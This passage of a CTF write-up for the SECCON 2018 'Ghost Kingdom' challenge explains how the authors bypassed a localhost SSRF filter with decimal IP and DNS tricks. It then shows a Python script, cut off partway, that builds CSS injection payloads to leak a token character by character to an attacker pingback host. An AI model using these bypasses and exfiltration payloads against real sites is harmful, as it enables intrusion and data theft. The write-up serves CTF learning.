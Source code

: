 
## Exploits
### SSRF

Trying to get the screenshot bot to GET [http://localhost/](http://localhost/) or [http://127.0.0.1/](http://127.0.0.1/) failed as any url with 'local' or '127.0.0.1' was being filtered. Luckily there are numerous bypasses for this. We can use decimal IP representation for localhost ([http://2130706433/](http://2130706433/)) or [http://lvh.me/](http://lvh.me/) (resolves to localhost). Or use your own DNS and set it to resolve to '127.0.0.1', I mean it's bad
practice but who's gonna stop you? The internet police? Screenshotting [http://2130706433/](http://2130706433/) shows us that the bot is not logged in, how annoying. It also shows us that the bot is on the local network (makes sense), and that there are different login types (local/internet).

![Screenshot]({{site.url}}/images/seccon18/screenshot.png)

The login request is a GET request, and so we can get the bot to login by getting it to visit:

[http://ghostkingdom.pwn.seccon.jp/?url=http%3A%2F%2F2130706433%2F%3Fuser%3Dp4wnp4wn%26pass%3Dpassword123%26action%3Dlogin&action=sshot2](http://ghostkingdom.pwn.seccon.jp/?url=http%3A%2F%2F2130706433%2F%3Fuser%3Dp4wnp4wn%26pass%3Dpassword123%26action%3Dlogin&action=sshot2)

This makes the bot visit the main menu. From the returned screenshot we can see that upload is allowed (The link has turned blue), HUZZAH! A lead! We assumed that this was the most likely way to progress. However we're definitely missing a few pieces, a screenshot of a working link does not an exploit make.

### XSS, But Not as You Know it

During our initial survey, we found it's possible to send the admin an emergency message. Using this feature we can include some CSS as a parameter that gets injected into the page as a style tag. What an odd design choice.


This means that the page was vulnerable to CSS injection, an interesting technique used to bypass the SOP that CTF's just love to use. I won't run through CSS injection for the sake of brevity for an already very late and long writeup but more can be found [here](https://www.mike-gualtieri.com/posts/stealing-data-with-css-attack-and-defense). We automated the attack using the following script to generate and send payloads:

```python
import requests
import sys
import urllib
import base64
import time

# pylint: disable-all

charset = "abcdef0123456789"

username = "p4wnp4wn"
password = "password123"

known = ""
css = []

pingback = sys.argv[1]

if len(sys.argv) > 2:
    known = sys.argv[2]

for guess in charset:
    css.append("input[value^='" + known + guess + "'] { background-image: url(" + pingback + "/" + known + guess + "); }")

payload = urllib.quote(base64.b64encode("\n".join(css)))
```